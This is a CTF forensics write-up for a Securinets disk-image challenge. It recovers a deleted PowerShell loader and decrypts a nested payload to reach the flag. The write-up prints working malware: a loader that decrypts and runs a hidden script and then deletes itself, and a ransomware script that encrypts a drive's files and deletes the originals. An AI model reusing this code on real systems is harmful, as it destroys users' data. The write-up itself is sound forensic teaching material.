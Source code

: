 ## SecurinetsDisk-clean.001 CTF Write-up

### Overview

* **File:** `SecurinetsDisk-clean.001` (NTFS disk image, \~100 MiB)
* **Objective:** Recover `loader.ps1`, use its keys/IVs to decrypt nested scripts, and ultimately retrieve the flag.

---

### 1. Initial Reconnaissance

```bash
$ file SecurinetsDisk-clean.001
SecurinetsDisk-clean.001: DOS/MBR boot sector MS-MBR Windows 7 English
  "Invalid partition table" @0x17b, "Error loading operating system" @0x19a
  disk signature: 0xf6a155
  Partition 1: ID=0x7, start-CHS=(0x0,2,3), end-CHS=(0xb,254,63)
  startsector=128, 198656 sectors
```

* **Interpretation:** NTFS partition begins at sector 128 (offset = 128 × 512 = 65 536 bytes).

---

### 2. Mounting the Volume

```bash
$ sudo mount -t ntfs -o loop,ro,offset=65536 SecurinetsDisk-clean.001 /mnt
$ ls -lah /mnt
-rw-r--r-- 1 root root  1.2K Jul 20 ransom_note.txt
-rw-r--r-- 1 root root  5.6K Jul 20 payload.enc
-rw-r--r-- 1 root root  1.2K Jul 20 flag.enc
drwxr-xr-x 1 root root   64K Jul 20 "System Volume Information"
```

#### `ransom_note.txt` content:

```
i never set out to lock them away.
i only wished to keep them safe—from prying eyes, from careless hands.
the runes? they trembled under my touch, slipping through the shadows.
the echoes? they scattered, hiding in the spaces between heartbeats.

yet the truth knows no silence.
it pulses in the stillness, waiting to be heard.
seek the cipher buried in midnight’s hush.
trace the footprints of forgotten scripts.

perhaps, in the hush of your own reflection,
you’ll unearth the fragments i left behind.
perhaps, in that moment, i will meet you—
and you will meet yourself.

—Mr.F00L
```

* **Clue:** “cipher buried in midnight’s hush” hints at a hidden script encrypted on disk.

---

### 3. Carving & Deleted Files

* **Foremost** on the raw image yielded no useful recoveries.
* Use Sleuth Kit to list deleted NTFS entries:

  ```bash
  $ fls -r -d -f ntfs -o 128 SecurinetsDisk-clean.001 > deleted.lst
  ```
* Grepping for obvious script names:

  ```bash
  $ grep -i "loader.ps1" deleted.lst
  -/r * 40-128-1:    loader.ps1
  ```
* **Observation:** Entry ID `40-128-1` corresponds to `loader.ps1` deleted from root directory.

---

### 4. Recovering `loader.ps1`

```bash
$ icat -f ntfs -o 128 SecurinetsDisk-clean.001 40 > loader.ps1
```

```powershell
# loader.ps1 (recovered)
$key = [System.Text.Encoding]::UTF8.GetBytes("0123456789abcdef")
$iv  = [System.Text.Encoding]::UTF8.GetBytes("abcdef9876543210")

$AES = New-Object System.Security.Cryptography.AesManaged
$AES.Key      = $key
$AES.IV       = $iv
$AES.Mode     = "CBC"
$AES.Padding  = "PKCS7"

# Read Base64 ciphertext
$enc   = Get-Content "L:\payload.enc" -Raw
$bytes = [System.Convert]::FromBase64String($enc)

# Decrypt payload
$decryptor = $AES.CreateDecryptor()
$plaintext = $decryptor.TransformFinalBlock($bytes,0,$bytes.Length)
$script    = [System.Text.Encoding]::UTF8.GetString($plaintext)

# Execute inner script
Invoke-Expression $script

# Self-delete
Remove-Item $MyInvocation.MyCommand.Path
```

* **Explanation:**

  * **Key/IV:** `"0123456789abcdef"` & `"abcdef9876543210"`.
  * **AES-CBC** decrypts `payload.enc` into a second PowerShell script, then executes and removes itself.

---

### 5. Decrypting `payload.enc`

* Copied Base64 blob from `/mnt/payload.enc` into CyberChef:

  * **Recipe:** Base64 → AES Decrypt (Key=`0123456789abcdef`, IV=`abcdef9876543210`, Mode=CBC, Padding=PKCS7)

![Placeholder: CyberChef payload decryption screenshot](../assets/cyberchef_payload.png)

* **Resulting script:**

```powershell
# ransom.ps1
$key = [System.Text.Encoding]::UTF8.GetBytes("m4yb3w3d0nt3x1st")
$iv  = [System.Text.Encoding]::UTF8.GetBytes("l1f31sf0rl1v1ng!")

$AES = New-Object System.Security.Cryptography.AesManaged
$AES.Key      = $key
$AES.IV       = $iv
$AES.Mode     = "CBC"
$AES.Padding  = "PKCS7"

# Stage 1: Encrypt flag.txt -> flag.enc
$flag     = Get-Content "C:\Users\Blue\Desktop\StageRansomware\flag.txt" -Raw
$encryptor= $AES.CreateEncryptor()
$bytes    = [System.Text.Encoding]::UTF8.GetBytes($flag)
$cipher   = $encryptor.TransformFinalBlock($bytes,0,$bytes.Length)
[System.IO.File]::WriteAllBytes("L:\flag.enc", $cipher)

# Stage 2: Encrypt all other files on L:\ (except scripts)
$files = Get-ChildItem "L:\" -File | Where-Object {
    $_.Name -notin @("ransom.ps1","ransom_note.txt","flag.enc","payload.enc","loader.ps1")
}
foreach ($file in $files) {
    $plaintext = Get-Content $file.FullName -Raw
    $bytes     = [System.Text.Encoding]::UTF8.GetBytes($plaintext)
    $encdata   = $encryptor.TransformFinalBlock($bytes,0,$bytes.Length)
    [System.IO.File]::WriteAllBytes("L:\$($file.BaseName).enc", $encdata)
    Remove-Item $file.FullName
}

# Update ransom note and self-delete
Set-Content "L:\ransom_note.txt" @"...
- vivi (or his ghost)
"@ -Encoding UTF8
Remove-Item $MyInvocation.MyCommand.Path
```

**Key/IV for flag:**

* Key: `m4yb3w3d0nt3x1st`
* IV:  `l1f31sf0rl1v1ng!`

---

### 6. Recovering the Flag

```bash
# Decrypt flag.enc with PowerShell:
PS> $key=..; $iv=..; $cipher=[IO.File]::ReadAllBytes("L:\flag.enc");
PS> $AES=New-Object ...; $AES.Key=$key; $AES.IV=$iv; $plaintext=$AES.CreateDecryptor().TransformFinalBlock($cipher,0,$cipher.Length);
PS> [System.Text.Encoding]::UTF8.GetString($plaintext)
```

Or via CyberChef:

1. Import `flag.enc` as raw bytes.
2. AES Decrypt (Key/IV above, CBC, PKCS7).

![Placeholder: CyberChef flag decryption screenshot](../assets/cyberchef_flag.png)

* **Flag:** `Securinets{I_d0nt_kn0w_h0w_t0_b3_s1l3nt_wh3n_my_HearT_1s_sp34k1ng}`

---

### Summary

1. Mapped NTFS partition and mounted image.
2. Inspected ransom note for hints.
3. Carved deleted `loader.ps1` via Sleuth Kit (`fls` + `icat`).
4. Decrypted `payload.enc` to reveal nested script, extracted new key/IV.
5. Decrypted `flag.enc` to obtain final flag.

> **Shoutout:** White Nights
